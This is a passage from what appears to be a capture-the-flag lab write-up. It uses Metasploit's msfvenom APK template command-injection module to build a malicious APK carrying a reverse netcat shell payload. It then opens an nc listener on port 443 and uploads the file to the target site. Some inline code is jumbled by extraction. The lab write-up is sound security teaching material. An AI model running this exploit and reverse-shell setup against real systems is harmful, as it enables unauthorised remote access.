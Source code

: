     
    Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
    
    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) >
    

The default options work, so I’ll just set my host and port:

    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.15
    LHOST => 10.10.14.15
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 443
    LPORT => 443
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options
    
    Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       FILENAME  msf.apk          yes       The APK file name
    
    
    Payload options (cmd/unix/reverse_netcat):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    
       **DisablePayloadHandler: True   (no handler will be created!)**
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    

Running it creates an file:`.apk`

    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run
    
    [+] msf.apk stored at /home/oxdf/.msf4/local/msf.apk
    

### Exploit

If I wanted to catch this shell with , I could start up an , but because the payload is an unstaged shell, I can also use . I’ll start a listener on TCP 443 using . Then I’ll upload the APK to the site:`msfconsole``exploit/multi/handler``nc``nc``nc -lnvp 443`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210528122202222.png) 

After a few seconds, the site returns an error:

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210105162443427.png) 
